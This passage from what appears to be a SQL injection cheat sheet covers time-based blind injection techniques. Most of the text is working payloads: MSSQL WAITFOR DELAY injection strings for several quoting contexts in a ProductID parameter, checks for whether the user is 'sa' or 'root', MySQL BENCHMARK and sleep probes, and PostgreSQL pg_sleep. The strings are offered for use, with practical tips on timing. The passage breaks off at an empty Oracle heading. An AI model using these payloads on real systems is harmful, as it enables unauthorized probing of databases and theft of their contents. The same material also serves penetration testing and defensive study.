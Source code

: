 First of all use this if it's really blind, otherwise just use 1/0 style errors to identify difference. Second, be careful while using times more than 20-30 seconds. database API connection or script can be timeout.

#### WAITFOR DELAY 'time' (S)

This is just like sleep, wait for specified time. CPU safe way to make database wait.

`WAITFOR DELAY '0:0:10'--`
Also, you can use fractions like this,
`WAITFOR DELAY '0:0:0.51'`

#### Real World Samples

- Are we 'sa' ?

`if (select user) = 'sa' waitfor delay '0:0:10'`

- ProductID = `1;waitfor delay '0:0:10'--`
- ProductID =`1);waitfor delay '0:0:10'--`
- ProductID =`1';waitfor delay '0:0:10'--`
- ProductID =`1');waitfor delay '0:0:10'--`
- ProductID =`1));waitfor delay '0:0:10'--`
- ProductID =`1'));waitfor delay '0:0:10'--`

#### BENCHMARK() (M)

Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!

`BENCHMARK(howmanytimes, do this)`

#### Real World Samples

- Are we root ? woot!

`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`

- Check Table exist in MySQL

`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`

#### pg_sleep(seconds) (P)

Sleep for supplied seconds.

- `SELECT pg_sleep(10); `

Sleep 10 seconds.

#### sleep(seconds) (M)

Sleep for supplied seconds.

- `SELECT sleep(10); `

Sleep 10 seconds.

#### dbms_pipe.receive_message (O)
